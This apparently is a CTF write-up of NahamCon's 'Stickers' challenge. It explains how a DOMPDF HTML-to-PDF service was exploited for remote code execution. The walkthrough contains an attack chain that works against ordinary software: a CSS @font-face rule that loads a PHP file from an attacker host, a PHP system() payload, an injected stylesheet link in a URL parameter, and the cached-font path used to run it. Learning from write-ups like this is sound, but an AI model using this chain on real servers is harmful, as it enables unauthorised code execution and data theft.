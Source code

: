 XSS 𝔽𝕠𝕟𝕥𝕔𝕖𝕡𝕥𝕚𝕠𝕟

Hello everyone! At the time of release, NahamCon has wrapped up their annual CTF event which I found to be extremely enjoyable and thought-provoking. I found one particular challenge to be very interesting and wanted to showcase the solution to their challenge Stickers.

![](https://miro.medium.com/v2/resize:fit:764/1*fTlKSMltVkq3gYDan3SEsA.png)

The challenge first takes you to a web application that accepts user-supplied input in various forms. Before any testing, I submitted some arbitrary information to see how the application processed this.

![](https://miro.medium.com/v2/resize:fit:764/1*4PncvDKs-U8oJW7UNNdEDg.png)

Upon submission, the input is converted from HTML to PDF.

![](https://miro.medium.com/v2/resize:fit:709/1*8j625j4Wy1R1T4xMROcQWQ.png)

My initial presumption was that this challenge was going to involve either [SSRF](https://portswigger.net/web-security/ssrf) or injecting some PDF code to perform XSS. I read through some great articles on the subject, most particularly, [_Portable Data exFiltration: XSS for PDFs_](https://portswigger.net/research/portable-data-exfiltration)_,_ however, with the flag.txt file residing outside the environment of the PDF, it did not seem of much fruition.

Continuing my testing, analyzing the HTTP response in Burpsuite highlighted something of interest.

![](https://miro.medium.com/v2/resize:fit:392/1*Ooyez2rIai0elmPo0jMwxA.png)

DOMPDF is a PHP library that can be used to easily create PDFs from various HTML pages in PHP. At its core, it allows for the generation of PDF documents from HTML content using the CSS and layout capabilities of the web.

After doing some quick research on the specific version number, it appears to be [vulnerable](https://www.cvedetails.com/vulnerability-list/vendor_id-21291/product_id-64244/version_id-528074/Dompdf-Project-Dompdf--.html) to Remote Code Execution. Because the form fields will accept HTML tags, we can also try and submit a reference to CSS or a CSS file. This vulnerability exists due to the improper input validation of the ‘src’ field of a CSS statement, ultimately allowing PHP code to be embedded within the referenced file. The validation also only ensures the file type is supported, but pays no attention to the contents of the file. Not only does this external style sheet get rendered by the DOMPDF library, but it also is saved in the local cache and then referenced by the DOMPDF framework.

I decided to create a CSS file that will load our external style sheet and render the font file with our embedded PHP.
```CSS
@font-face {  
  font-family:'test';  
  src:url('http://<DOMAIN>:1337/test.php');  
  font-weight:'normal';  
  font-style:'normal';  
}
```


Then I created a test.php file using the exploit font file [here](https://github.com/snyk-labs/php-goof/tree/main/exploits) and changed the PHP payload to the following:

(RAW CONTENT AVAILABLE AT LINK)  
```php
<?php system("cat /flag.txt"); ?>
```

I hosted these files through a python web server and then used a <link rel>
attribute in the _organisation_ parameter to reference the malicious .css and .php. Keep in mind the naming convention of the font file must be the same as the _font-family_ attribute.

```
http://challenege.nahamcon:31583/quote.php?organisation=%3Clink+rel%3Dstylesheet+href%3D%27http%3A%2F%2F<IP>:<ListeningPort>/test.css%27%3E&email=email%40email.com&small=1&medium=2&large=4
```

To execute our embedded PHP, we need to reference the file name of the cached font. This [article](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf) by Optiv details the fairly simple naming convention of these cached fonts.

```
filename = fontname+_+style+_+md5 hash+.+file extension
```

While this may sound overly complex, the solution is quite simple. We can easily calculate the MD5 hash by running the command:

```bash
echo -n "http://<IP>:<PORT>/test.php" |md5sum
```

Using this output we can navigate to where our cached font file resides by supplying the file path /dompdf/lib/fonts/test_normal_<md5hash>.php in the URL. Upon navigating to the link our embedded PHP code is executed returning the contents of the flag.txt file.



If you’ve made it this far, I hope you may have learned something new. I sure did and found this challenge to be fairly difficult, but quite rewarding. Thanks for STICKERing around…

**Resources/Links:**

(https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)(https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)  
(https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)(https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)  
(https://github.com/positive-security/dompdf-rce/](https://github.com/positive-security/dompdf-rce/)